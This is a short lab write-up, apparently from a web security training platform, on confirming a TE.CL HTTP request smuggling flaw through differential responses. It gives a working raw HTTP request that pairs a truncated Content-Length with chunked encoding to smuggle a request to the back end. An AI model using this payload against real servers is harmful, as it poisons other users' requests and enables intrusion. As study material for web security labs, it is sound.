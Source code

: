 # Practitioner Lab 129: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

---

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

![Untitled](Practitioner%20Lab%20129%20HTTP%20request%20smuggling,%20confi%20532557f0519a475aa11b7ed5ae066ff8/Untitled.png)

The initial request was invalidated by the first server. 

meaning that it can only be one of two things. 

TECL or TETE 

now i will test the second case to see which one it is but I know for sure that the front end has TE

![Untitled](Practitioner%20Lab%20129%20HTTP%20request%20smuggling,%20confi%20532557f0519a475aa11b7ed5ae066ff8/Untitled%201.png)

Since it gave me a timeout it means that This is TECL 

![Untitled](Practitioner%20Lab%20129%20HTTP%20request%20smuggling,%20confi%20532557f0519a475aa11b7ed5ae066ff8/Untitled%202.png)

I then altered the request to be like this

```
POST / HTTP/1.1
Host: 0aaa006f0408e4948128bd5e00200073.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

58
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

0

```

This sends a good Chuncked request but a cutoff content length. This results in me poisoning the server with part of my 404 request and results in the lab being solved.